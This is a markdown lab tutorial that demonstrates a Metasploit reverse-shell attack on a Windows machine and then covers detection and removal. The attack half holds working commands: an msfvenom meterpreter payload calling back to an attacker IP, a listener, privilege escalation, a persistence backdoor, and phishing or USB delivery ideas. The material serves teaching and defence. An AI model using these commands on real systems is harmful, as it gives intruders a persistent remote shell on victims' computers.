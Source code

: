 Here’s a demonstration of **how an attacker might gain access to your Windows 10 desktop or Windows Server 2016**, followed by **detection and prevention techniques**.

---

## **Attack Demonstration: Gaining Remote Access**
### **Scenario:** Attacker Gains a Backdoor into Your Windows Machine Using Metasploit (Reverse Shell)

### **Pre-requisites for Lab Simulation**
- A Windows 10 or Windows Server 2016 machine (Target)
- A Kali Linux machine (Attacker)
- Metasploit Framework installed on Kali

---

### **Step 1: Create a Malicious Payload**
The attacker uses **msfvenom** to generate a malicious Windows executable that, when executed on the victim machine, establishes a reverse connection.

On Kali Linux (Attacker):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > malicious.exe
```
> Replace `192.168.1.100` with the attacker's actual IP.

This generates `malicious.exe`, which the attacker needs to get executed on the target.

---

### **Step 2: Deliver the Payload to the Victim**
The attacker **tricks the victim** into executing the file. Some common delivery methods:
- **Phishing Email**: The attacker sends the file disguised as a software update.
- **USB Drop Attack**: The attacker leaves a USB drive with the payload in a public place.
- **Fake Download Link**: The attacker hosts the file on a malicious website.

---

### **Step 3: Set Up a Listener on Kali**
Before the victim runs the file, the attacker sets up a **Metasploit listener** to catch the reverse connection.

```bash
msfconsole
```
Then in Metasploit:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

### **Step 4: Victim Runs the Payload**
Once the victim executes `malicious.exe`, the attacker's machine **gets a remote shell**.

On Kali, the attacker now has a Meterpreter session:
```bash
meterpreter> sysinfo
```
This confirms access to the victim’s system.

---

### **Step 5: Privilege Escalation**
If the attacker needs **admin privileges**, they use:
```bash
meterpreter> getsystem
```
If UAC (User Account Control) prevents privilege escalation, the attacker may run:
```bash
meterpreter> run post/windows/gather/win_privs
```
And then try UAC bypass techniques.

---

### **Step 6: Persistence (Maintaining Access)**
The attacker ensures they **retain access** even after a reboot by installing a backdoor.
```bash
meterpreter> run persistence -U -i 5 -p 4444 -r 192.168.1.100
```
This ensures the payload runs every time the system starts.

---

## **How to Detect & Prevent This Attack**
### **1. Check Running Processes**
If you suspect an attack, open **Task Manager** (Ctrl+Shift+Esc) and look for:
- Unusual processes (`malicious.exe`, `cmd.exe`, `powershell.exe` running unexpectedly)

### **2. Scan for Suspicious Network Connections**
Run:
```powershell
netstat -ano | findstr :4444
```
If you see a foreign IP connected on port 4444, you may have an active attack.

### **3. Check Event Logs**
- **Windows Event Viewer** > **Windows Logs** > **Security**
- Look for **Event ID 4688** (New process creation) with `malicious.exe`
- **Event ID 4624** (Successful login) from an unknown source

### **4. Disable Remote Code Execution**
- Disable **PowerShell execution for all users**:
  ```powershell
  Set-ExecutionPolicy Restricted -Force
  ```
- **Block port 4444** and other unused ports in **Windows Defender Firewall**.

### **5. Remove the Attack**
If you suspect compromise:
- **Kill the malicious process**:
  ```powershell
  taskkill /F /IM malicious.exe
  ```
- **Remove persistence entries**:
  ```powershell
  reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousEntry /f
  ```
- **Run an antivirus scan** with **Windows Defender** or **Malwarebytes**.

---

## **Conclusion**
This demo shows how an attacker can **gain remote access** to a Windows 10 or Server 2016 machine using **Metasploit and a reverse shell**. 


